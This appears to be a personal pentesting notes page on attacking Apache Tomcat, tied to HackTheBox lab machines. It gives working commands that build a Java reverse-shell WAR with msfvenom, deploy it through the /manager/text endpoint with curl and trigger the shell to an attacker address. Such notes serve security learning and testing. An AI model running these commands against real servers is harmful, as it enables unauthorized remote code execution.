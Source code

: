 ```yaml
---
tags:
  - hack
---
```

# Attacking Tomcat

Apache Tomcat is a Java-based web application stack that was very popular 20 years ago and is still used in legacy environments where applications have been built on Jakarta Server Pages (JSP), also known as JavaServer Pages. Tomcat is three components: Catalina, the servlet container, Coyote, its HTTP connector, and Jasper which is the core JSP engine. Tomcat is still under active development in 2024.

## Privileged Endpoints

The `/manager` and `/host-manager` endpoints are special. The first one can be used to upload a malicious web application archive, or WAR file. Guessing common credentials can easily lead to RCE. If the system has a Local File Inclusion (LFI) vulnerability, plaintext credentials for one or both of those administrative endpoints are potentially readable.

## Remote Code Execution

### Web Application Archive (WAR) File

With credentials for the `/manager` endpoint, an attacker may upload a malicious Web Application Archive (WAR) file. Such a file can easily be generated using `msfvenom`, as in this example:

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o hax.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: hax.war
```

### Uploading a WAR File

This file can be uploaded from the command line, assuming valid credentials for the `/manager/text` endpoint:

```console
$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://target:8080/manager/text/deploy?path=/hax --upload-file hax.war
OK - Deployed application at context path [/hax]

```

Then, trigger the reverse shell:

```text
$ curl http://target:8080/hax
```

## Examples

- [HackTheBox Jerry](htb-jerry-20240904.md) is a target using default credentials which can be used to upload a malicious WAR file for a foothold.
- [HackTheBox Tabby](htb-tabby-20240809.md) demonstrates discovery of the `tomcat-users.xml` file (via [LFI](dvwa-exploiting-lfi-20240522.md)) which contains sensitive credentials which are used to access the `/manager/text/deploy` to deploy a malicious WAR for RCE.
